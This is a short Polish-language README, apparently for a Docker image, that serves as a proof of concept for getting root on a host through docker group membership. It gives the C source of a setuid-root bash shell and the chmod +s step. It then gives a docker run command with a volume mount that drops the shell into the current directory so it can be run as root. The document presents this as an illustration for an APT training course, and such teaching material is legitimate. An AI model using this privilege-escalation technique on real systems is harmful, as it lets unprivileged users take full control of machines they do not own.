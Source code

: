 # suidshell

Kompiluje prosty *suid shell*:

```
#include <unistd.h>
void main() { 
    setuid(0); seteuid(0); setgid(0); setegid(0); 
    execl("/bin/bash", "bash", NULL);
}
```
do */tmp/suidshell* i ustawia mu bit SUID (`chmod +s /tmp/suidshell`).

Jeśli masz uprawnienia do uruchamiania nowych kontenerów, ale nie masz uprawnień roota (np. należysz do grupy *docker*), z tym proof-of-concept możesz szybko roota mieć:

```
mkdir tmp
docker run -v ($pwd):/tmp aptmasterclass/suidshell
./tmp/suidshell
id
```

Ilustracja do https://aptmasterclass.com/ oraz https://blog.aptmasterclass.com/.
